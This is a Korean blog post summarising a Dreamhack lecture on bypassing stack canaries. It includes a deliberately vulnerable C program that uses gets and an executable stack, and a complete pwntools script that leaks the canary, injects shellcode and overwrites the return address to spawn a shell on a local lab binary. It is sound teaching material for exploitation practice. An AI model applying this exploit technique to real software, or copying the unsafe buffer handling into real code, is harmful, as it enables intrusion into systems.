 ```yaml
---
title: "[pwnable] Canary"
date: 2022-02-15T00:00:00+00:00
author: 이정목
layout: post
permalink: /canary/
categories: pwnable
tags: [dreamhack, pwnable, canary]
---
```


**해당 포스팅은 드림핵의 강의를 정리한 글이다.** [링크](https://dreamhack.io/lecture/courses/64)

밑에 있는 코드의 실행 파일에서 쉘을 따는 예제이다. buf의 주소가 주어지고 (아직 ASLR을 배우지 않은 상태이므로) buf와 rbp 사이의 거리가 주어진다. 따라서 gdb를 통해서 buf와 sfp간의 거리를 직접 찾아줄 필요가 없어졌다! 버퍼 오버플로우를 적당히 잘 일으켜서 카나리 값을 읽은 다음, 그 카나리 값을 카나리 위치에 잘 넣어서 __stack_chk_fail 함수를 건드리지 않으면서 ret 주소까지 overwrite 해주면 된다.

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack
#include <stdio.h>
#include <unistd.h>
int main() {
  char buf[0x50];
  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);
  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);
  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);
  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);
  return 0;
}

```

### 1. 카나리 읽기.
buf, canary, sfp, ret

이런 식으로 스택이 구성이 되어 있다. 우리는 각각이 얼마만큼의 크키를 차지하는지를 알아내고, 그 자리에 맞게 buffer overflow를 일으켜 카나리를 읽으면 된다. 여기서 좋은 점은 buf와 rbp(결국 sfp를 말한다) 사이의 거리를 주었다는 점이다. 64비트이므로 카나리의 크기는 8바이트임을 알고 있기 때문에, buf와 rbp 사이의 거리를 알고 있으면 buf와 sfp 사이의 거리 또한 알 수 있다. 따라서 우리는 저 distance between buf and $rbp 뒤에 오는 거리 값을 받아서, 거기서 8을 빼서 buf와 canary 사이의 거리를 구한 다음, 그만큼을 아무 값으로 채워 주면(오버플로우) 카나리를 읽을 수 있다.

```python
# get distances
p.recvuntil("buf: ")
buf = int(p.recvline()[:-1], 16) # [:-1] : 마지막 \n 제거, 16진수를 10진수로
print(hex(buf))

p.recvuntil("$rbp: ")
buf2sfp = int(p.recvline()[:-1])
print(buf2sfp)

buf2cnry = buf2sfp - 0x8 # 8차이 남

# get canary
payload = b'A'*(buf2cnry)
payload += b'A' # canary 맨 앞의 null byte까지 밀기
p.recvuntil("Input: ")
p.send(payload)

p.recvuntil(payload) # 보낸 페이로드가 null byte를 못 만나 쭉 출력이 된다
cnry = u64(b'\x00' + p.recvn(7)) # 8-1 = 7
print(hex(cnry))
```

## 2. return address 까지 덮기
위에서 카나리를 구했으므로, buf, canary, sfp, ret을 덮는 과정에서 canary를 보존하면서 ret 주소를 덮어주면 된다. 여기서 return 주소를 쉘을 실행하는 함수로 덮는 게 아니라, buf에 쉘코드를 주입한 후 ret 자리에 buf 주소를 넣어서 쉘코드가 실행되도록 하는 방법을 이용한다. 따라서 우리는 

**buf : buf2cnry만큼을 쉘코드로 덮고 나머지는 A로 채운다**

**canary : 위에서 구했으므로 그대로 넣어준다**

**sfp : 그냥 8바이트만큼 A로 채운다**

**ret : buf의 주소를 넣는다**

이런 식으로 페이로드를 작성하면 된다.

```python
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b"A") # buf 덮기
payload += p64(cnry)
payload += b"A"*0x8
payload += p64(buf) # 위에서 구한 buf 주소로 덮기

p.recvuntil("Input: ")
p.sendline(payload)
```

따라서 전체 코드는 다음과 같다.
```python
from pwn import *

p = process("./r2s")

context.arch = "amd64"

# get distances
p.recvuntil("buf: ")
buf = int(p.recvline()[:-1], 16) # [:-1] : 마지막 \n 제거, 16진수를 10진수로
print(hex(buf))

p.recvuntil("$rbp: ")
buf2sfp = int(p.recvline()[:-1])
print(buf2sfp)

buf2cnry = buf2sfp - 0x8 # 8차이 남

# get canary
payload = b'A'*(buf2cnry)
payload += b'A' # canary 맨 앞의 null byte까지 밀기
p.recvuntil("Input: ")
p.send(payload)

p.recvuntil(payload) # 보낸 페이로드가 null byte를 못 만나 쭉 출력이 된다
cnry = u64(b'\x00' + p.recvn(7)) # 8-1 = 7
print(hex(cnry))

sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b"A") # buf 덮기
payload += p64(cnry)
payload += b"A"*0x8
payload += p64(buf) # 위에서 구한 buf 주소로 덮기

p.recvuntil("Input: ")
p.sendline(payload)

p.interactive()

```